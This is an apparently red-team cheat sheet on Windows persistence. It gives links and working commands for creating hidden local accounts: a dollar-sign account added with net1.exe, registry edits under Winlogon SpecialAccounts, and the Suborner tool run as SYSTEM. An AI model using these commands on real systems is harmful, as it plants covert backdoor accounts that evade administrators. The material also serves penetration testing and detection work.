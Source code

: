 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)




## Windows

- [https://persistence-info.github.io/](https://persistence-info.github.io/)



### Scheduled Tasks

- [https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles](https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles)



### Hidden Local User

- [https://github.com/3gstudent/Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)
- [https://github.com/wgpsec/CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)


#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```
Cmd > net1.exe user snovvcrash$ Passw0rd! /add
```


#### SpecialAccounts

```
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWord -Value 0 -Force
```


#### Suborner

- [https://r4wsec.com/notes/the_suborner_attack/](https://r4wsec.com/notes/the_suborner_attack/)
- [https://github.com/r4wd3r/Suborner](https://github.com/r4wd3r/Suborner)

```
PS > whoami
nt authority\system
PS > .\Suborner.exe /username:snovvcrash$ /password:Passw0rd!
```
